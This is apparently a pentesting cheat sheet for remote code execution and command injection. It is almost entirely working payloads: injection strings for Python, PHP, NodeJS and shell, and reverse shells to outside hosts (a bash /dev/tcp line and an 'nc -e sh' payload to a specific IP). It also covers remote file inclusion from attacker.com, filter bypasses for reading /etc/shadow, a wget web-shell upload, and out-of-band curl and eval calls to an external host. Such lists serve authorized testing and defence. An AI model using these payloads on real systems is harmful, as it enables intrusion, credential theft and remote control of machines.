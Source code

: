 # Detection
- Send a `'` to check if there is an error. Then Fuzz input (based on previos error) to check difference in returning error.
  ```bash
  ');#
  '));#
  ')));#
  '))));#
  ...
  ```
- Python
  ```python
  print("RCE test!")
  "__import__('os').system('ls')"
  "__import__('os').system('sleep 10')"
  GET /calculator?calc="__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')"
  eval('__import__(\'os\').popen(\'cat+flag\').read()')
  ```
- PHP
  ```bash
  phpinfo();
  <?php system("ls");?>
  <?php system("sleep 10");?>
  ".phpinfo();//
  '.phpinfo();//
  );}system('ls');//
  '));+phpinfo();//
  '));system('id');#
  ');print(file_get_content('index.php'));#
  ${`cat /etc/passwd`}
  ```
- NodeJS
  ```javascript
  {"activity":"sleep'+(global.process.mainModule.require('child_process').execSync('nc 49.13.57.86 8080 -e sh'))+'","health":"63","weight":"42","happiness":"56"}
  ```
- Unix
  ```bash
  ;ls;
  | sleep 10;
  & sleep 10;
  ` sleep 10;`
  $(sleep 10)
  ```

- **File inclusion:** Try to make the endpoint include either a remote file or a local file that you can control. 
  ```bash
  # Remote
  http://example.com/?page=http://attacker.com/malicious.php   
  http://example.com/?page=http:attacker.com/malicious.php

  # Local
  http://example.com/?page=../uploads/malicious.php            
  http://example.com/?page=..%2fuploads%2fmalicious.php
  ```

# Bypass
- Unix system
  ```bash
  # cat /etc/shadow
  cat "/e"tc'/shadow'     # quotes and double quotes
  cat /etc/sh*dow         # wildcards
  cat /etc/sha``dow
  cat /etc/sha$()dow      # empty command substitution
  cat /etc/sha${}dow
  ```
- PHP
  ```php
  # system('cat /etc/shadow');
  ('sys'.'tem')('cat /etc/shadow');    # concatenate
  system/**/('ls');                    # blank comment
  '\x73\x79\x73\x74\x65\x6d'('ls');    # hex-encoded
  ```
- Python
  ```python
  # __import__('os').system('cat /etc/shadow')
  __import__('o'+'s').system('cat /etc/shadow')
  __import__('\x6f\x73').system('cat /etc/shadow')
  ```
- `system` is filtered  →  Parameter Pollution (Webserver concatenate for parameter with same name)
  ```bash
  GET /calculator?calc="__import__('os').sy"&calc="stem('ls')"
  Host: example.com
  ```
- hex-encode
- URL-encode
- Double-URL-encode
- Vary the cases (uppercase or lowercase characters)
- Insert special characters such as
  - null bytes
  - newline characters
  - escape characters (`\`)
  - other special or non-ASCII characters 

# Escalate
- Classic RCEs
  - Create a proof of concept that executes a harmless command like whoami or ls.
  - Read a common system file such as `/etc/passwd`.
  - Create a file with a distinct filename on the system, such as `touch rce_by_YOUR_NAME.txt`.
- blind RCEs
  - Create a POC that executes the sleep command.
- Shell upload
  ```bash
  1.php?ev=<?php system('wget http://192.168.1.16/wp.txt') ?>
  1.php?ev=<?php system('mv wp.txt wp.php') ?>
  ```

# Commix
```bash
python3 commix.py -r [requestFile] -p [parameter]
```

# Tip
- Use BurpSuite active scanner.
- Only use out-of-band with these payloads:
  - PHP
      ```php
      {${sleep(10)}}           
      ${eval(file_get_contents('https://r.icollab.info'))}
      ```
  - General
      ```
      %0a`curl${IFS}https://r.icollab.info`
      %0a`{curl,https://r.icollab.info}`
      %0acurl%20https://r.icollab.info
      ```
